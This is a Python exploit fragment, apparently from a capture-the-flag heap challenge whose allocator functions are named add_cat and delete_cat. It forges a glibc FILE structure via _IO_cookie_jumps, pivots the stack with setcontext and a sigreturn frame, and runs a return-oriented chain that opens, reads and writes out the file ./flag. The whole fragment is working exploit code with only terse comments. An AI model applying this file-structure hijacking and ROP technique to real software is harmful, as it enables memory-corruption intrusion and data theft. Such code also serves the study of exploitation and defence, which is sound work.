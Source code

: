 ```python
payload.vtable = _IO_cookie_jumps + 0x38  # address of _IO_file_xsputn, vtable + 0x38 = _IO_cookie_read
payload._lock = base + 0x21BA70  # _IO_stdfile_1_lock
payload = bytes(payload)[0x10:]
payload += p64(heap_base + 0x28F0 + 0x100)
payload += p64(encrypted_addr)
payload = payload.ljust(0x100, b'\x00')
payload += p64(0)
payload += p64(heap_base + 0x28F0 + 0x100)
payload += p64(0) * 2
payload += p64(base + libc.symbols['setcontext'] + 61)

# use SigReturn frame to set rsp and rcx
frame = SigreturnFrame()
frame.rsp = heap_base + 0x28F0 + 0x300
frame.rip = pop_rdi + 1
payload += flat(frame)[0x28:]
payload = payload.ljust(0x300, b'\x00')

# construct ROP chain
# close the stdin, and it will reopen automatically
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(base + libc.symbols['close'])

# open file ./flag
payload += p64(pop_rdi)
payload += p64(heap_base + 0x28F0 + 0x400)
payload += p64(pop_rsi)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(2)  # syscall code for open
payload += p64(syscall)

# read file ./flag to heap
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x500)
payload += p64(pop_rdx_rbx)
payload += p64(0x100)
payload += p64(0)
payload += p64(base + libc.symbols['read'])

# write content in ./flag
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x500)
payload += p64(pop_rdx_rbx)
payload += p64(0x100)
payload += p64(0)
payload += p64(base + libc.symbols['write'])

payload = payload.ljust(0x400) + b'./flag\x00'

add_cat(6, 0x430, b'colin')
add_cat(7, 0x450, b'colin')
add_cat(8, 0x430, b'colin')
add_cat(9, 0x440, payload)
add_cat(10, 0x430, b'colin')
delete_cat(6)
delete_cat(7)
```
